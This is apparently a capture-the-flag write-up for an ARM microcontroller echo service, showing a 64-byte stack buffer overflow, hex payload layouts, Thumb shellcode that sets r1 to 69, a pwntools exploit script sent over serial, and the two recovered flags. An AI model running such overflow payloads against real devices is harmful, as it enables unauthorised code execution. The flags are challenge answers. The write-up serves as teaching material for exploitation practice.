





# Challenge files

Opening a serial connection reveals the running program.

As the source fragment suggest, sending anything is printed back.

```
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0a
```



The source fragment shows the vulnerable part and the crown jewels. The buffer size is 64 bytes. 

```c
void decrypt() {
	...
    
    printf("Congratulation for the flag: %s !\n", buff);
    printf("There is a second one here, keep looking! Register r1 should be 69!\n");
    stdio_flush();

    if (r1 != 69) { reboot(); }
    ...
    if (r1 != 69) { reboot(); }
    ...
    if (r1 != 69) { reboot(); }
    ...
    if (r1 != 69) { reboot(); }
    ...
    ...

    printf("Congratulation for the flag: %s !\n", buff);
    printf("Rebooting in 5s");
    stdio_flush();
    sleep_ms(5000);
    reboot();
}

void echo() {
    char buff[64];
    printf("[Debug] buff at 0x%08x.\n", buff);
    printf("Input: ");
    gets_crlf(buff); //same as gets, but terminates on any of \n or \r
    printf("Output: %s\n", buff);
    stdio_flush();
}
```

There are also some debug messages printing the important addresses.

# Disassembly

Exporting the binary and loading it into ghidra is detailed in the [challenge1](../challenge1/WRITEUP.md#import-binary) solution. Arm v6 or Cortex, LE, base 0x10000000 was used.

You can follow the print strings and see the buffer distance at the start (0x44, 68).




# Buffer overflow

The buffer is 64 bytes, but there is no size constrain on the input.

We have the decrypt function address printed as debug info. We can jump into that directly.



```
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
FF FF FF FF 15 04 00 10 
0a
```


The overflow works, but we need more control to get a second flat. We have to set r1 register to 69.

# Shellcode

We also have the buffer address printed as help, we can use that to store a shellcode and jumpt to it.
The GNU assembler `as` from the pico sdk can be used to construct a shellcode. 

[exploit_shellcode.s](workdir/exploit_shellcode.s) .

```as
.thumb
.align 4

.text
.global _start
_start:
    mov r1, #69
	pop {pc}
```

```bash
/path/to/pico/sdk/gcc-arm-none-eabi/bin/arm-none-eabi-as exploit_shellcode.s -o exploit_shellcode.o 
/path/to/pico/sdk/gcc-arm-none-eabi/bin/arm-none-eabi-objdump -D exploit_shellcode.o
```

Alternatively https://shell-storm.org/online/Online-Assembler-and-Disassembler/ with ARM Thumb and Little Endian setting, or any similar service can be used. 

Keep in mind, when setting the pc register, we need to bitwise OR the address with 0x1 to mark it as Thumb instruction, hence 0x20041ea9 is used instead 0x20041ea8. See ARM internals for more info.

Shellcode is minimal, setting the register to the required value and then popping the decrypt into pc.


The buffer structure.



```
45 21 00 bd 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
FF FF FF FF a9 1e 04 20 15 04 00 10 
0a
```

Sending the correctly set r1 gives us both flags.


# Pwntools script

Pwntools can be used to communicate with the device over serial and send the buffer in a more structured way. 

[exploit.py](workdir/exploit.py)

```python
#!/bin/env python3

'''
Initialization complete!
[Debug] main at 0x10000385.
[Debug] echo at 0x10000351.
[Debug] decrypt at 0x10000415.
Echo service running.
[Debug] buff at 0x20041ea8.
Input: XXX
Output: XXX
'''

from pwn import *
from time import sleep
import sys

io = serialtube("/dev/ttyACM0", baudrate=115200)

def flatl(x):
    return flat(x, endianness="little")

BUFF_LEN = 64
BUFF_ADDR = 0x20041ea8
DECRYPT = 0x10000415

SHELLCODE = b"".join([
    b"\x45\x21", # movs r1, #69
    b"\x00\xbd", # pop {pc}
])

PAYLOAD = b"".join([
    SHELLCODE,
    b"A"*(BUFF_LEN-len(SHELLCODE)),
    b"XXXX",
    flatl(BUFF_ADDR | 0x1), # thumb instruction need | 0x1 for address
    flatl(DECRYPT),
    b"\n"
])

io.recv(timeout=0.1)
#io.send_raw(b"A"*63+b"\n")
io.send_raw(PAYLOAD)
while True:
    try:
        res = io.recvline()
        print(res.decode("utf-8"), end="")
    except:
        break
```



# Flags
DB{23ba345e029c137179fc3551503c}

DB{ea4d25a78cddc9fda52f1e465eb8}
